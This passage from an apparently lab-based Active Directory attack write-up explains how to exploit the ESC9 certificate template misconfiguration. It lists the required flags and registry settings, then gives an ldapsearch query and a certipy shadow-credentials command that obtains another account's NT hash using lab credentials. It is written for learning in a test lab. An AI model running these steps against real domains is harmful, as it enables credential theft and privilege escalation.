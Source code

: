 ## ESC9

In order to exploit this one we need :
- a generic write other an account.
- Also msPKI-Enrollement-Flag must content 0x00080000 value (524288 in decimal) equivaleant to the value [CT_FLAG_NO_SECURITY_EXTENSION](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/ec71fd43-61c2-407b-83c9-b52272dec8a1).
- And we also need StrongCertificateBindingEnforcement set to 1 (default) or 0 
- Or CertificateMappingMethods set to 0x04 - UPN

![part14_esc9_attribute.png](/assets/blog/GOAD/part14_esc9_attribute.png)

- Certipy show this flag too or it can be retrieve manually with ldapsearch

```bash
ldapsearch -H ldap://192.168.56.12 -D "missandei@essos.local" -w fr3edom -b 'CN=ESC9,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local' "*"
```

- Add shadow credentials from missandei to viserys to get viserys'NThash.

```bash
certipy shadow auto -username "missandei@essos.local" -p "fr3edom" -account viserys.targaryen -dc-ip 192.168.56.12
```

![part14_esc9_shadowcreds.png](/assets/blog/GOAD/part14_esc9_shadowcreds.png)
